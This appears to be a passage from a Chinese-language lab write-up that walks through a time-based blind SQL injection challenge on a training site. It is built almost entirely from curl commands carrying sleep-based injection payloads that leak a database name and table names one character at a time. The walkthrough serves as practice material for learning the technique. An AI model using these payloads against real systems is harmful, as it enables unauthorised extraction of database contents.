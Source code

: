再逐一暴库的字符。
```
time curl "http://lab1.xseclab.com/sqli7_b95cf5af3a5fbeca02564bffc63e92e5/blind.php?username=admin'and%20if(ascii(substr(concat(database()),1,1))<110,sleep(2),1)--+"
```
`m`

```
time curl "http://lab1.xseclab.com/sqli7_b95cf5af3a5fbeca02564bffc63e92e5/blind.php?username=admin'and%20if(ascii(substr(concat(database()),2,1))<122,sleep(2),1)--+"
```
`y`

```
time curl "http://lab1.xseclab.com/sqli7_b95cf5af3a5fbeca02564bffc63e92e5/blind.php?username=admin'and%20if(ascii(substr(concat(database()),3,1))<100,sleep(2),1)--+"
```
`d`

```
time curl "http://lab1.xseclab.com/sqli7_b95cf5af3a5fbeca02564bffc63e92e5/blind.php?username=admin'and%20if(ascii(substr(concat(database()),4,1))<98,sleep(2),1)--+"
```
`a`

```
time curl "http://lab1.xseclab.com/sqli7_b95cf5af3a5fbeca02564bffc63e92e5/blind.php?username=admin'and%20if(ascii(substr(concat(database()),5,1))<116,sleep(2),1)--+"
```
`s`

OK！数据库叫mydas。

报表。

```
time curl "http://lab1.xseclab.com/sqli7_b95cf5af3a5fbeca02564bffc63e92e5/blind.php?username=admin'and%20if((select%20count(table_name)%20from%20information_schema.tables%20where%20table_schema%3Ddatabase%28%29)=3,sleep(2),1)--+"
```
3个表。
逐一报表名。
暴露长度，并逐一暴露表名字符。
第一个表


```
time curl "http://lab1.xseclab.com/sqli7_b95cf5af3a5fbeca02564bffc63e92e5/blind.php?username=admin'and%20if((select%20length%28table_name%29%20from%20information_schema.tables%20where%20table_schema%3Ddatabase%28%29%20limit%200%2C1)=3,sleep(2),1)--+"
```
长度3。

```
time curl "http://lab1.xseclab.com/sqli7_b95cf5af3a5fbeca02564bffc63e92e5/blind.php?username=admin'and%20if((select%20ascii%28substr%28table_name%2C1%2C1%29%29%20from%20information_schema.tables%20where%20table_schema%3Ddatabase%28%29%20limit%200%2C1)<108,sleep(2),1)--+"
l
time curl "http://lab1.xseclab.com/sqli7_b95cf5af3a5fbeca02564bffc63e92e5/blind.php?username=admin'and%20if((select%20ascii%28substr%28table_name%2C2%2C1%29%29%20from%20information_schema.tables%20where%20table_schema%3Ddatabase%28%29%20limit%200%2C1)<112,sleep(2),1)--+"
o

time curl "http://lab1.xseclab.com/sqli7_b95cf5af3a5fbeca02564bffc63e92e5/blind.php?username=admin'and%20if((select%20ascii%28substr%28table_name%2C3%2C1%29%29%20from%20information_schema.tables%20where%20table_schema%3Ddatabase%28%29%20limit%200%2C1)<104,sleep(2),1)--+"
g
```
NMB。
下一个。
